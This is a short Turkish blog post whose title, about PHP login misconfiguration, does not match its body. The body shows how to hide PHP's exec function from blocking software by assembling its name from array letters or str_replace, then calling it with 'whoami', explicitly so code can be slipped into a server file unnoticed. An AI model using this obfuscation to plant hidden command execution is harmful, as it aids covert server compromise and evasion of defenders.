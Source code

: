 ```yaml
---
 layout: post
 title:  "PHP Yanlış Login Yapılandırılması"
 date:   2017-06-20 01:00:45 +0200
 categories: PHP
 image: /resim/cms_admin2.png	
---
```


<h1 id="php-fonksiyon-ismini-şifrelemek">Php Fonksiyon ismini şifrelemek</h1>
<p>Şifreleme nedir? Yaptığımız işlerde veya hayatımızda nasıl bir önemi vardır? Hep görürüz televizyonda suçlular dinlemelere takılmamak için elmaya armut der. Aslında verdiğim örnekten yola çıkarsak  ifade edeceğimiz şeyi hem biz hemde karşı tarafın anlaması lazım. Bu yol ile amacımızı gizlemiş ve gizlilik alanımızı başarıyla oluşturmuş oluyoruz. Fakat bu gizlilik deşifre olabilir. Konumuza gelelim şimdi PHP’deki genelde <s>yasaklı</s> bazı fonksiyonları biliriz. Eğer bilmiyorsak size şöyle örnek vereyim <code>exec</code> komutu tam bir baş belası haline gelebiliyor eğer ki sunucunuza bir takım iyi veya kötü kişiler erişim sağladıysa.</p>
<p>Genelde bu fonksiyonu içeren kısımları engelleyen yazılımlar var. Bir php dosyasına bir ekleme yapacağız fakat bunu karşı tarafa hissettirmeden yapmamız gerekiyor. Öyle ise şu yolları deneyebiliriz;<br>
Bir Array oluşturup buna fonksiyonumuzun her harfini ekleyelim.</p>
<pre><code>$a = array('x','e','c');
</code></pre>
<p>Peki biz ne yaptık aslında ne yapacağız. PHP’de fonksiyonu bir değişkene atayabiliyoruz,örnek;<br>
<code>exec('whoami')</code> bunu komutu ben değişkenle vermek istiyorsam bunu bana mümkün kılıyor PHP , yukarıda oluşturduğumuz Array’ı kullanalım.</p>
<pre><code> $str=$a[1].$a[0].$a[1].$a[2];
</code></pre>
<p>Yav sen oralaya bir şeyler yazdın ama biz bunu anlamadık der gibisiniz. İş size başta bahsettiğim gibi şifrelemede olay hem bizim hemde karşı tarafın anlaması burada olayı PHP’ye bırakıyoruz.Değişkenimize şunları atamış olduk bu işlemi yaparak. <code>$a[1]-&gt;e , $a[2]-&gt;x , $a[1]-&gt; e , $a[2]-&gt; c</code> şimdi kaba kodu bir silelim bakalım değişkenimize ne atanmış.<code>exec</code> değerini değişkenimize başarılı bir şekilde atamış olduk. Şimdi ise onu kullanma vakti geldi.<br>
<code>echo $str('whoami');</code><br>
Çıktı :<br>
<code>testpc\testuser</code><br>
Aslında farklı teknikler ile bu yapıyı genişleyebilirsiniz.Örnek vereyim <code>str_replace</code> kullanarak da aynı sonuç alabiliriz.</p>
<pre><code> $cmd=str_replace("u", "", "ueuxueucu");
 echo $cmd('whoami')
</code></pre>
<p>çıktısı yine aynı olacaktır.<br>
Bir seferki konuda görüşmek üzere sağlıcakla Kalın!</p>


